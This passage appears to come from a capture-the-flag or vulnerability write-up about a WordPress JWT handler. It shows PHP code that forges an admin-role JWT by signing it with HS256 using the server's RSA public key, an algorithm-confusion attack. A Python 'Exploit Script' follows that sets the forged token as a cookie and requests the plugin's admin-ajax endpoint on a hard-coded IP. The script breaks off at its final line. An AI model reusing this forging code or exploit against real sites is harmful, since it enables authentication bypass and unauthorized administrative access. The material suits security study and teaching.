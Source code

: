 ```php
    public static function urlSafeBase64Decode($input)
    {
        $remainder = strlen($input) % 4;
        if ($remainder) {
            $input .= str_repeat('=', 4 - $remainder);
        }
        return base64_decode(strtr($input, '-_', '+/'));
    }

    public static function urlSafeBase64Encode($input)
    {
        return str_replace('=', '', strtr(base64_encode($input), '+/', '-_'));
    }
}

    $publicKey = <<<EOD
    -----BEGIN PUBLIC KEY-----
    MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAqXfQ7ExnjmPJbSwuFoxw
    3kuBeE716YM5uXirwUb0OWB5RfACAx9yulBQJorcQIUdeRf+YpkQU5U8h3jVyeqw
    HzjOjNjM00CVFeogTnueHoose7Jcdi/K3NyYcFQINui7b6cGab8hMl6SgctwZu1l
    G0bk0VcqgafWFqSfIYZYw57GYhMnfPe7OR0Cvv1HBCD2nWYilDp/Hq3WUkaMWGsG
    UBMSNpC2C/3CzGOBV8tHWAUA8CFI99dHckMZCFJlKMWNQUQlTlF3WB1PnDNL4EPY
    YC+8DqJDSLCvFwI+DeqXG4B/DIYdJyhEgMdZfAKSbMJtsanOVjBLJx4hrNS42RNU
    dwIDAQAB
    -----END PUBLIC KEY-----
    EOD;

    $issuedAt = new DateTimeImmutable();
    $data = [
        "role" => "admin",
        "iat" => $issuedAt->getTimestamp(),
        "nbf" => $issuedAt->getTimestamp()
    ];

    echo SimpleJWTHandler::encodeToken($data, $publicKey, 'HS256');

```

### Exploit Script

The following Python script sets the `simple_jwt` cookie with the malicious JWT and accesses the target endpoint:

```python
import httpx
import asyncio

URL = "http://100.25.255.51:9094/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url)

class API(BaseAPI):
    ...

async def main():
    api = API()
    api.c.cookies.set("simple_jwt", "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MjcwNjQ2NjgsIm5iZiI6MTcyNzA2NDY2OH0.qz8J6xy7f5f7px44KIiqQT0ROikzXjpzKCpJ6XxPII4")
    res = await api.c.get("/wp-admin/admin-ajax.php?action=simple_jwt_handler")
    print(res.text)

if __name__ == "__main__":
```